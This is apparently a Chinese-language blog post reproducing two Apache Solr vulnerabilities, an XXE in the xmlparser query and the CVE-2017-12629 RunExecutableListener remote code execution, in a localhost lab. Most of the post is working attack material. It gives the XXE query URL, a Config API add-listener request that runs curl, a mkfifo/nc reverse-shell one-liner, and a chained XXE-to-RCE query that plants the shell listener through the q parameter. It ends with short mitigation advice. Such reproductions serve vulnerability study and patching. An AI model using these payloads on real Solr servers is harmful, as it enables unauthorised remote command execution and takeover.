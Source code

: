 ```yaml
---
title: Apache Solr XML外部实体扩展(XXE)及远程代码执行（RCE CVE-2017-12629）
date: 2017-10-17 14:55:56
tags: 漏洞复现
---
```

## 0x00 简述
这里涉及到两个漏洞，一个是外部实体扩展XML External Entity Expansion (deftype=xmlparser) ，另一个是远程代码执行Remote Code Execution (add-listener: RunExecutableListener)。这两个漏洞是由Michael Stepankin (JPMorgan Chase)和Olga Barinova (Gotham Digital Science)发现并公布，此处主要进行漏洞复现。

原文地址：[http://lucene.472066.n3.nabble.com/Re-Several-critical-vulnerabilities-discovered-in-Apache-Solr-XXE-amp-RCE-td4358308.html](http://lucene.472066.n3.nabble.com/Re-Several-critical-vulnerabilities-discovered-in-Apache-Solr-XXE-amp-RCE-td4358308.html)

Solr主页：[http://lucene.apache.org/solr/](http://lucene.apache.org/solr/)

<!-- more -->

安装及启动都非常简单，不过需要强调的是，代码执行的漏洞需要在solr -c模式(cloud)下才有效。

启动后界面如下：
![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot01.png)

**平台：macOS 10.12.6**

## 0x01 XXE复现
Lucene包括一个使用XML数据结构创建全功能Lucene查询的解析器。从5.1版本开始，在Sorl的搜索查询中就开始支持xml查询。而出现漏洞的关键点在于Lucene的XML解析器没有明确禁止外部实体的DOCTYPE声明和扩展，造成可以在XML文档中包含指向外部文件(file:// )或者外部URL(http:// )的特殊实体。
#### 1. 使用netcat侦听4444端口 "nc -lv 4444"

#### 2. 浏览器访问
```
http://localhost:8983/solr/solr/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://localhost:4444/hello-liehu"><a></a>'}
```

#### 3. netcat接收到solr的请求包。

![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot02.png)


## 0x02 RCE复现( CVE-2017-12629 )
Solr的RunExecutableListener类可用于对特定事件执行任意命令，例如在每次更新查询后执行(postCommit)。该漏洞的问题点在于这样的监听器可以通过带有add-listener命令的Config API来启用任意参数。

#### 1. 新建一个名为Hunter的集合

http://localhost:8983/solr/admin/collections?action=CREATE&name=Hunter&numShards=2&maxShardsPerNode=2

![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot03.png)
![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot04.png)
PS：就复现而言，可以手动在后台添加集合或者使用现有集合。

#### 2. 使用netcat侦听4444端口“nc -lv 4444”

#### 3. 为集合添加一个新的RunExecutableListener监听器，其中"exe"属性内容为运行命令的名称("curl")，"args"属性内容" http://localhost:4444/helloRCE "为netcat侦听的端口。

```json
POST /solr/Hunter/config HTTP/1.1
Host: localhost:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"curl",
    "dir":"/usr/bin/",
    "args":["http://localhost:4444/helloRCE"]
  }
}
```
![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot05.png)

>   如果出现如上报错，是因为集合中没有数据。向http://localhost:8983/solr/Hunter/update 提交一些数据即可（数据提交方式参考下一步）。（资料参考：https://lucene.apache.org/solr/guide/7_0/uploading-data-with-index-handlers.html ）
    
>   如果监听器已经存在，可以考虑更换name,或者将add-listener修改问update-listener.

#### 4. 更新集合"Hunter"以触发RunExecutableListener的执行。

提交更新后，等一段时间后接收到请求包。

![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot06.png)

#### 5. 反弹Shell

mac下nc没有-e选项，也没有/dev/tcp，可使用

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 6666 > /tmp/f 
```
update一下监听器：
```json
{
    "update-listener": {
        "event": "postCommit",
        "name": "reverseShell",
        "class": "solr.RunExecutableListener",
        "exe": "sh",
        "dir": "/bin/",
        "args": ["-c", "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 6666 > /tmp/f"]
    }
}
```
update一下数据，即可收到反弹shell:
![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot07.png)

## 0x03 XXE&RCE 组合利用

通过将如上两个漏洞组合，外部攻击者即使不能直接访问Sorl服务器，也可以实现远程代码执行。 唯一的要求是攻击者可以构造查询参数'q'。 如下的利用便是将所有的payload置于q参数，发起请求即可实现。

#### 1. 通过XXE新建集合combineEXP

```
http://localhost:8983/solr/Hunter/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://localhost:8983/solr/admin/collections?action=CREATE%26name=combineEXP%26numShards=2%26maxShardsPerNode=2"><a></a>'}
```
![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot08.png)

#### 2. 通过XXE添加RunExecutableListener
```
http://localhost:8983/solr/combineEXP/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://localhost:8983/solr/combineEXP/select?q=xxx&qt=/solr/combineEXP/config?stream.body={"add-listener": {"event": "postCommit", "name": "shell","class": "solr.RunExecutableListener", "exe": "sh","dir": "/bin/", "args": ["-c", "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 7777 > /tmp/f"]}}"]}}&shards=localhost:8983/"><a></a>'}
```
先对stream.body内容进行二次URL编码(因为反弹shell的命令含有特殊字符)，然后在对q内容进行一次URL编码，得到URL(经过编码后的URL很长，这里不列出)。
![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot09.png)
会显示error，但实际已经成功。

#### 3. 通过XXE更新内容触发动作

```
http://localhost:8983/solr/combineEXP/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://localhost:8983/solr/combineEXP/update?stream.body=[{"id":"AAA"}]&commit=true&overwrite=true"><a></a>'}
```
先对stream.body内容进行一次URL编码，然后在对q内容进行一次URL编码，得到URL。
![](Apache-Solr-XML外部实体扩展XXE及远程代码执行RCE-CVE-2017-12629/screenshot10.png)
shell反弹成功！！！

0x04 防护方案
1. 关注官方消息，及时升级到solr 7.1版本。
2. 以系统参数"-Ddisable.configEdit=true"重启Solr实例，可实现临时性防护。(可能会影响正常功能)